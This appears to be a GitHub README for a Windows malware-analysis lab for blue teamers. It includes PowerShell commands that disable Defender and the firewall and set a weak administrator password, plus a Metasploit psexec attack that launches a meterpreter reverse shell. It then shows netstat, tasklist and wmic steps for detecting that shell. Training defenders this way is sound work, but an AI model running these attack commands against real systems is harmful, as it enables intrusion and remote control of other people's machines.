





# Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

 

---

## Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

 

---

## Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

 

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

 

---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

 

---

## Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
🔗 [LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
└── README.md
```

## License

MIT License
